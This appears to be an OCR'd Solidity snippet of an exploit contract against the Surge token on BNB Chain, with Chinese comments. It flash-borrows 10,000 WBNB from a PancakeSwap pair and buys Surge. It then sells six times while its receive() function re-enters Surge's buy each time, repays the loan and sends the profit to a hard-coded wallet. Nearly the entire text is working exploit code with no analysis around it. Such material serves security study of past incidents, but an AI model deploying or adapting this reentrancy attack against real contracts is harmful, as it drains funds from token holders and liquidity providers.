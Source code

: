 ```
    
    address public constant Surge_Address = 0xE1E1Aa58983F6b8eE8E4eCD206ceA6578F036c21;
    
    // 这里填你自己的测试地址
    address public wallet = 0x8F14c19ed3d592039D2F6aD372bd809228369D77;
    
    uint8 public time = 0;
    
    
    
    function Attack()external {
    
        // Brrow 10000 WBNB
        bytes memory data = abi.encode(WBNB_Address, 10000*1e18);
        
        IpancakePair(Pancake_Pair_Address).swap(0,10000*1e18,address(this),data);
    
    }
    
    function pancakeCall(address sender, uint amount0, uint amount1, bytes calldata data) external{

        //把WBNB换成BNB
        WBNB(WBNB_Address).withdraw(WBNB(WBNB_Address).balanceOf(address(this)));
        
        // Buy
        (bool buy_successful,) = payable(Surge_Address).call{value: address(this).balance, gas: 40000}("");
        
        //循环6次
        Surge(Surge_Address).sell(Surge(Surge_Address).balanceOf(address(this)));
        Surge(Surge_Address).sell(Surge(Surge_Address).balanceOf(address(this)));
        Surge(Surge_Address).sell(Surge(Surge_Address).balanceOf(address(this)));
        Surge(Surge_Address).sell(Surge(Surge_Address).balanceOf(address(this)));
        Surge(Surge_Address).sell(Surge(Surge_Address).balanceOf(address(this)));
        Surge(Surge_Address).sell(Surge(Surge_Address).balanceOf(address(this)));
        
        //最后一次卖出为正常的卖出操作, 不再通过重入再次购买
        Surge(Surge_Address).sell(Surge(Surge_Address).balanceOf(address(this)));
        
        //把所有BNB换成WBNB
        WBNB(WBNB_Address).deposit{value: address(this).balance}();

        //还给PancakeSwap 10030个WBNB
        Token(WBNB_Address).transfer(Pancake_Pair_Address, 10030*1e18);
        WBNB(WBNB_Address).transfer(wallet,WBNB(WBNB_Address).balanceOf(address(this)));
    }
    
    

    receive() external payable {
        
        if(msg.sender == Surge_Address && time < 6){
        
            (bool buy_successful,) = payable(Surge_Address).call{value: address(this).balance, gas: 40000}("");

            time++;

        }
    }
    
}

```